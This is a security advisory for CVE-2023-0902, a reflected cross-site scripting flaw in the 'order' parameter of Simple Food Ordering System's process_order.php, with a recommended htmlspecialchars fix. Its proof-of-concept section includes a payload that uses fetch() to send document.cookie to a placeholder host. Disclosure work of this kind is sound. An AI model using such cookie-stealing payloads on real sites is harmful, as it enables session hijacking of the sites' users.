# Simple Food Ordering System - Authenticated Reflected Cross Site Scripting

### Date: 
> 17 February 2023

### CVE Assigned:
**[CVE-2023-0902](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0902)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0902) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0902)

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Simple Food Ordering System](https://www.sourcecodester.com/php/15418/simple-food-ordering-system-client-side-phpmysqli-free-source-code.html)

### Version:
> v 1.0

### What is Reflected Cross-Site Scripting:
> Reflected cross-site scripting (XSS) is a type of web vulnerability that occurs when a web application fails to properly sanitize user input, allowing an attacker to inject malicious code into the application's response to a user's request. When the user's browser receives the response, the malicious code is executed, potentially allowing the attacker to steal sensitive information or take control of the user's account.

### Affected Page: 
> Vulnerable Page: process_order.php

> In this page order parameter is vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Reflected XSS found in order parameter of process_order.php page. Authenticated Reflected Cross-Site Scripting (XSS) is a serious vulnerability that can have a significant impact on the security of a web application and its users. The risk of Authenticated Reflected XSS is similar to that of Reflected XSS, but with the added danger that the attacker must first gain access to a valid user account in order to exploit the vulnerability. The main risk associated with Authenticated Reflected XSS is that it can allow an attacker to steal sensitive information or take control of a user's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a user's account, they can perform any actions that the user is authorized to do. In addition, Authenticated Reflected XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a user's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> Initially, I tried to verify the XSS attack, I used standard XSS payload <script>alert("Verification");</script> and the Below Image confirmed that, the parameter is vulnerable to reflected XSS.

> Payload: process_order.php?order=<script>alert(1)<%2fscript>mjii5

> ![image](https://user-images.githubusercontent.com/123810418/219716828-62b529c9-8366-4051-8b2c-f9065b158089.png)

> Based on that, I have decided to make it realistic attack and use burp colloborator to hijack user cookie:

> Payload: process_order.php?order=<script>fetch(%27http://dummyurl/%27,{method:%27POST%27,mode:%27no-cors%27,body:document.cookie});</script>

>  ![image](https://user-images.githubusercontent.com/123810418/219717379-d085a7ec-29d4-4d2c-ba19-69e5011891e8.png)

### Recommendation: 
> Whoever uses this CMS, should update line no 41 of process_order.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['order']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['order'])); ?>
```

Thank you for reading
